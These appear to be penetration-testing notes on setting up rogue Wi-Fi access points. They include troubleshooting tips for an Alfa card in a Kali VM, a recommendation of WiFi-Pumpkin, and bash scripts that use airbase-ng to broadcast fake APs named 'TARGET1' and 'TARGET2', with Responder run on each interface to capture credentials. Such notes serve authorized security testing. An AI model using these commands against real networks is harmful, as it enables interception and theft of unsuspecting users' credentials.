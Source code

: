 ## Rogue APs

##### Single AP

```
Troubleshooting Notes:
1) When connecting an alfa card make sure it is connected properly to the VM. This can be performed by browsing to 
VM---->Removable Devices----->(Device Name)---->Connect
If still having issues go to the top right of kali (WiFi properties) and turn on the adapter
Also make sure the Kali VM is in bridged mode
If still having issues after that just keep restarting and/or unplugging and plugging in the alfa card
```

The easiest way to setup a rogue AP that has the most functionality if the wifi-pumpkin.

[https://github.com/P0cL4bs/WiFi-Pumpkin](https://github.com/P0cL4bs/WiFi-Pumpkin)

This tool has the most functionality that I have come across and is the easiest to use interface short of using a wifi pinneaple. It even includes the ability to setup responder on an interface. As of Nov 2018 a beta version of 8.7 included the ability to performed KARMA attacks but I have been unsuccessful to get it to work. Hopefully, future versions will include this ability in a stable manner.

##### Multiple APs

Unfortunately, Wifi-Pumpkin is not currently capable of setting up across multiple interfaces. Even starting two instances interfere with functionality. The following method is what I used to setup multiple APs from a single host that has responder running on each interface.

**First Interface**

```
#!/usr/bin/env bash
airmon-ng check kill
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up

airbase-ng -a XX:XX:XX:XX:XX:XX --essid "TARGET1" -c 6 wlan0
```

In a new terminal tab

```
responder -I wlan0
```

**Second Interface**

```
#!/usr/bin/env bash
#airmon-ng check kill
ifconfig wlan1 down
iwconfig wlan1 mode monitor
ifconfig wlan1 up

airbase-ng -a XX:XX:XX:XX:XX:XX --essid "TARGET2" -c 6 wlan1
```

In a new terminal tab

```
responder -I wlan1
```



